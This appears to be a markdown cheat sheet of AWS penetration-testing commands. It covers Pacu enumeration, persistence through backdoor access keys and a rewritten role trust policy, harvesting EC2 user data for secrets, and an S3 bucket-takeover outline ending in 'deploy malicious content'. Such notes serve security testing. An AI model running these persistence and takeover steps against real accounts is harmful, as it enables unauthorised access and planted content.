 ## General
### Access key and Secret key:
```
aws configure
aws configure --profile Test
aws sts get-caller-identity --profile Test
```

### PACU
```
import_keys Test
ls
whoami
run iam__enum_permissions
run aws__enum_spend
```

## Maintain persistence
### Identify user with 0 or 1 access key (need iam:CreateAccessKey)
```
aws iam list-users --profile Test
aws iam list-access-keys --user-name Sarah --profile Test
aws iam create-access-key --user-name Sarah --profile Test
# Or run PACU command
run iam__backdoor_users_keys
```

### User with iam update-assume-role-policy
Identify non-service-link role
```
aws iam a list-roles --profile Test
```
Change the trust-policy
```
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "Service": "ec2.amazonaws.com",
        "AWS": "arn:aws:iam::593820606366:user/vitquay-nonroot"
      },
      "Action": "sts:AssumeRole"
    }
  ]
}
```
Update and assume role
```
aws iam update-assume-role-policy --role-name test-role --policy-document file://trust-policy.json --profile Test
aws sts assume-role --role-arn arn:aws:iam::748384263101:role/test-role --role-session-name PersistenceTest --profile vitquaynonroot
```

## EC2
10.0.1.1 is reserved for the gateway of the subnet, 10.0.1.2 is
reserved for AWS DNS, and 10.0.1.3 is reserved for any future use by
AWS.

Look for hardcoded user data
```
run ec2__enum
run ec2__download_userdata
```
## S3
### awscli commands
```
aws s3 ls s3://kirit-bucket
aws s3 cp abc.txt s3://kirit-bucket/new/abc.txt
aws s3 rm s3://kirit-bucket/new/abc.txt --acl public-read
```

### NoSuchBucket message
- Check CNAME record for the bucket name
- Create S3 bucket with the same name and region
- Deploy malicious content

## Lambda
